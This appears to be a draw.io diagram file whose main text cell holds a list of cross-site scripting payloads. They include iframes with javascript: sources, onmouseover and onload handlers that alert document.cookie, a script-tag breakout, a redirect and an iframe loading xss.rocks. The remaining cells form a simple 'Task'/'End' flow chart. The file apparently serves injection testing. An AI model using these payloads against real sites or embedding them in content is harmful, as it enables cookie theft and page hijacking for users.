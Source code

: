 <mxfile version="21.5.0" type="github">
  <diagram name="Trang-1" id="rilgfFn0dm8-1_RlxOkk">
    <mxGraphModel dx="1434" dy="764" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="42JPCgYe1txJgRVNadL5-1" value="&lt;pre style=&quot;overflow-wrap: break-word;&quot;&gt;&lt;br&gt;&lt;/pre&gt;&lt;pre style=&quot;overflow-wrap: break-word;&quot;&gt;&quot;&amp;gt;&amp;lt;h1&amp;gt;&amp;lt;IFRAME SRC=&quot;javascript:alert(&#39;XSS&#39;);&quot;&amp;gt;&amp;lt;/IFRAME&amp;gt;&quot;&amp;gt;123&amp;lt;/h1&amp;gt;&lt;br/&gt;&quot;&amp;gt;&amp;lt;h1&amp;gt;&amp;lt;IFRAME SRC=# onmouseover=&quot;alert(document.cookie)&quot;&amp;gt;&amp;lt;/IFRAME&amp;gt;123&amp;lt;/h1&amp;gt;&lt;br/&gt;&amp;lt;IFRAME SRC=&quot;javascript:alert(&#39;XSS&#39;);&quot;&amp;gt;&amp;lt;/IFRAME&amp;gt;&lt;br/&gt;&amp;lt;IFRAME SRC=# onmouseover=&quot;alert(document.cookie)&quot;&amp;gt;&amp;lt;/IFRAME&amp;gt;&lt;br/&gt;&quot;&amp;gt;&amp;lt;h1&amp;gt;&amp;lt;IFRAME SRC=# onmouseover=&quot;alert(document.cookie)&quot;&amp;gt;&amp;lt;/IFRAME&amp;gt;123&amp;lt;/h1&amp;gt;&lt;br/&gt;&quot;&amp;gt;&amp;lt;/iframe&amp;gt;&amp;lt;script&amp;gt;alert(`TEXT YOU WANT TO BE DISPLAYED`);&amp;lt;/script&amp;gt;&amp;lt;iframe frameborder=&quot;0%EF%BB%BF&lt;br/&gt;&quot;&amp;gt;&amp;lt;h1&amp;gt;&amp;lt;IFRAME width=&quot;420&quot; height=&quot;315&quot; SRC=&quot;http://www.youtube.com/embed/sxvccpasgTE&quot; frameborder=&quot;0&quot; onmouseover=&quot;alert(document.cookie)&quot;&amp;gt;&amp;lt;/IFRAME&amp;gt;123&amp;lt;/h1&amp;gt;&lt;br/&gt;&quot;&amp;gt;&amp;lt;h1&amp;gt;&amp;lt;iframe width=&quot;420&quot; height=&quot;315&quot; src=&quot;http://www.youtube.com/embed/sxvccpasgTE&quot; frameborder=&quot;0&quot; allowfullscreen&amp;gt;&amp;lt;/iframe&amp;gt;123&amp;lt;/h1&amp;gt;&lt;br/&gt;&amp;gt;&amp;lt;h1&amp;gt;&amp;lt;IFRAME width=&quot;420&quot; height=&quot;315&quot; frameborder=&quot;0&quot; onmouseover=&quot;document.location.href=&#39;https://www.youtube.com/channel/UC9Qa_gXarSmObPX3ooIQZr&lt;br/&gt;g&#39;&quot;&amp;gt;&amp;lt;/IFRAME&amp;gt;Hover the cursor to the LEFT of this Message&amp;lt;/h1&amp;gt;&amp;amp;ParamHeight=250&lt;br/&gt;&amp;lt;IFRAME width=&quot;420&quot; height=&quot;315&quot; frameborder=&quot;0&quot; onload=&quot;alert(document.cookie)&quot;&amp;gt;&amp;lt;/IFRAME&amp;gt;&lt;br/&gt;&quot;&amp;gt;&amp;lt;h1&amp;gt;&amp;lt;IFRAME SRC=&quot;javascript:alert(&#39;XSS&#39;);&quot;&amp;gt;&amp;lt;/IFRAME&amp;gt;&quot;&amp;gt;123&amp;lt;/h1&amp;gt;&lt;br/&gt;&quot;&amp;gt;&amp;lt;h1&amp;gt;&amp;lt;IFRAME SRC=# onmouseover=&quot;alert(document.cookie)&quot;&amp;gt;&amp;lt;/IFRAME&amp;gt;123&amp;lt;/h1&amp;gt;&lt;br/&gt;&amp;lt;iframe src=http://xss.rocks/scriptlet.html &amp;lt;&lt;br/&gt;&amp;lt;IFRAME SRC=&quot;javascript:alert(&#39;XSS&#39;);&quot;&amp;gt;&amp;lt;/IFRAME&amp;gt;&lt;br/&gt;&amp;lt;IFRAME SRC=# onmouseover=&quot;alert(document.cookie)&quot;&amp;gt;&amp;lt;/IFRAME&amp;gt;&lt;/pre&gt;" style="text;strokeColor=none;fillColor=none;align=left;verticalAlign=top;spacingLeft=4;spacingRight=4;overflow=hidden;rotatable=0;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;whiteSpace=wrap;html=1;labelBackgroundColor=none;fontColor=#FEFAE0;" vertex="1" parent="1">
          <mxGeometry x="60" y="850" width="1030" height="580" as="geometry" />
        </mxCell>
        <mxCell id="42JPCgYe1txJgRVNadL5-2" value="Vertical Flow Layout" style="swimlane;startSize=20;horizontal=1;childLayout=flowLayout;flowOrientation=north;resizable=0;interRankCellSpacing=50;containerType=tree;fontSize=12;strokeColor=#DDA15E;fontColor=#FEFAE0;fillColor=#BC6C25;" vertex="1" parent="1">
          <mxGeometry x="660" y="1050" width="270" height="697" as="geometry" />
        </mxCell>
        <mxCell id="42JPCgYe1txJgRVNadL5-3" value="&lt;font color=&quot;#000000&quot;&gt;&#39;&lt;br&gt;&lt;br&gt;&quot;&amp;gt;&lt;/font&gt;&lt;h1&gt;&lt;font color=&quot;#000000&quot;&gt;&quot;&amp;gt;123&lt;/font&gt;&lt;/h1&gt;&lt;font color=&quot;#000000&quot;&gt;&lt;br&gt;&lt;br&gt;&quot;&amp;gt;&lt;/font&gt;&lt;h1&gt;&lt;font color=&quot;#000000&quot;&gt;123&lt;/font&gt;&lt;/h1&gt;&lt;font color=&quot;#000000&quot;&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&quot;&amp;gt;&lt;/font&gt;&lt;h1&gt;&lt;font color=&quot;#000000&quot;&gt;123&lt;/font&gt;&lt;/h1&gt;&lt;font color=&quot;#000000&quot;&gt;&lt;br&gt;&quot;&amp;gt;123&lt;br&gt;&quot;&amp;gt;&lt;/font&gt;&lt;h1&gt;&lt;font color=&quot;#000000&quot;&gt;123&lt;/font&gt;&lt;/h1&gt;&lt;font color=&quot;#000000&quot;&gt;&lt;br&gt;&amp;gt;&lt;/font&gt;&lt;h1&gt;&lt;font color=&quot;#000000&quot;&gt;Hover the cursor to the LEFT of this Message&lt;/font&gt;&lt;/h1&gt;&lt;font color=&quot;#000000&quot;&gt;&amp;amp;ParamHeight=250&lt;br&gt;&lt;br&gt;&quot;&amp;gt;&lt;/font&gt;&lt;h1&gt;&lt;font color=&quot;#000000&quot;&gt;&quot;&amp;gt;123&lt;/font&gt;&lt;/h1&gt;&lt;font color=&quot;#000000&quot;&gt;&lt;br&gt;&quot;&amp;gt;&lt;/font&gt;&lt;h1&gt;&lt;font color=&quot;#000000&quot;&gt;123&lt;/font&gt;&lt;/h1&gt;" style="whiteSpace=wrap;html=1;strokeColor=#DDA15E;fontColor=#FEFAE0;fillColor=#BC6C25;" vertex="1" parent="42JPCgYe1txJgRVNadL5-2">
          <mxGeometry x="85" y="40" width="100" height="40" as="geometry" />
        </mxCell>
        <mxCell id="42JPCgYe1txJgRVNadL5-4" value="Task" style="whiteSpace=wrap;html=1;strokeColor=#DDA15E;fontColor=#FEFAE0;fillColor=#BC6C25;" vertex="1" parent="42JPCgYe1txJgRVNadL5-2">
          <mxGeometry x="20" y="546.5" width="100" height="40" as="geometry" />
        </mxCell>
        <mxCell id="42JPCgYe1txJgRVNadL5-5" value="" style="html=1;rounded=1;curved=0;sourcePerimeterSpacing=0;targetPerimeterSpacing=0;startSize=6;endSize=6;strokeColor=#DDA15E;fontColor=#FEFAE0;fillColor=#BC6C25;noEdgeStyle=1;orthogonal=1;" edge="1" parent="42JPCgYe1txJgRVNadL5-2" source="42JPCgYe1txJgRVNadL5-3" target="42JPCgYe1txJgRVNadL5-4">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="111.25" y="508.5" />
              <mxPoint x="70" y="534.5" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="42JPCgYe1txJgRVNadL5-6" value="Task" style="whiteSpace=wrap;html=1;strokeColor=#DDA15E;fontColor=#FEFAE0;fillColor=#BC6C25;" vertex="1" parent="42JPCgYe1txJgRVNadL5-2">
          <mxGeometry x="150" y="546.5" width="100" height="40" as="geometry" />
        </mxCell>
        <mxCell id="42JPCgYe1txJgRVNadL5-7" value="" style="html=1;rounded=1;curved=0;sourcePerimeterSpacing=0;targetPerimeterSpacing=0;startSize=6;endSize=6;strokeColor=#DDA15E;fontColor=#FEFAE0;fillColor=#BC6C25;noEdgeStyle=1;orthogonal=1;" edge="1" parent="42JPCgYe1txJgRVNadL5-2" source="42JPCgYe1txJgRVNadL5-3" target="42JPCgYe1txJgRVNadL5-6">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="158.75" y="508.5" />
              <mxPoint x="200" y="534.5" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="42JPCgYe1txJgRVNadL5-8" value="End" style="whiteSpace=wrap;html=1;strokeColor=#DDA15E;fontColor=#FEFAE0;fillColor=#BC6C25;" vertex="1" parent="42JPCgYe1txJgRVNadL5-2">
          <mxGeometry x="85" y="636.5" width="100" height="40" as="geometry" />
        </mxCell>
        <mxCell id="42JPCgYe1txJgRVNadL5-9" value="" style="html=1;rounded=1;curved=0;sourcePerimeterSpacing=0;targetPerimeterSpacing=0;startSize=6;endSize=6;strokeColor=#DDA15E;fontColor=#FEFAE0;fillColor=#BC6C25;noEdgeStyle=1;orthogonal=1;" edge="1" parent="42JPCgYe1txJgRVNadL5-2" source="42JPCgYe1txJgRVNadL5-4" target="42JPCgYe1txJgRVNadL5-8">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="70" y="598.5" />
              <mxPoint x="112.5" y="624.5" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="42JPCgYe1txJgRVNadL5-10" value="" style="html=1;rounded=1;curved=0;sourcePerimeterSpacing=0;targetPerimeterSpacing=0;startSize=6;endSize=6;strokeColor=#DDA15E;fontColor=#FEFAE0;fillColor=#BC6C25;noEdgeStyle=1;orthogonal=1;" edge="1" parent="42JPCgYe1txJgRVNadL5-2" source="42JPCgYe1txJgRVNadL5-6" target="42JPCgYe1txJgRVNadL5-8">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="200" y="598.5" />
              <mxPoint x="157.5" y="624.5" />
            </Array>
          </mxGeometry>
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
